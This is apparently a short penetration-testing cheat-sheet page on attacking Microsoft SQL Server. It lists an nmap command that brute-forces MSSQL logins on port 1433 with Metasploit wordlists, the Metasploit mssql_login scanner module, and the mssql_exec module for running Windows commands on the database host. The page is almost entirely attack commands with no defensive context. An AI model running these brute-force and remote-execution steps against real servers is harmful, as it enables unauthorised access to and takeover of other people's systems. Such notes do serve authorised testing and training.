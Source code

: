 # MSSQL

# MSSQL brute force attack

```
nmap --script=ms-sql-brute --script-args=userdb=/usr/share/wordlists/metasploit/unix_users.txt,passwd=/usr/share/wordlists/metasploit/unix_passwords.txt -p 1433 <target>
```

```
msf6 > use auxiliary/scanner/mssql/mssql_login
```

# Execute a Windows command on MSSQL instance

```
msf6 > use auxiliary/admin/mssql/mssql_exec
```